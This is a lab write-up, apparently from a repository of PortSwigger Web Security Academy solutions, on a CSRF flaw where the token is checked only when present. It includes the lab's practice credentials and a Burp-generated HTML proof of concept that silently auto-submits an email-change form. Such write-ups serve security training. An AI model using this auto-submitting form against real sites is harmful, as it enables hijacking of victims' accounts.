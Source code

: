 
# CSRF where token validation depends on token being present

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf/bypassing-token-validation



![img](images/CSRF%20where%20token%20validation%20depends%20on%20token%20being%20present/1.png)

---------------------------------------------

In this case the default POST request to change the email contains a parameter “csrf”, but it works if you send only the email and no CSRF token:



![img](images/CSRF%20where%20token%20validation%20depends%20on%20token%20being%20present/1.png)


Clicking "Engagement tools" > "Generate CSRF PoC", it generates an HTML PoC:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a27008804d6685d8057df8500ab003c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test4&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
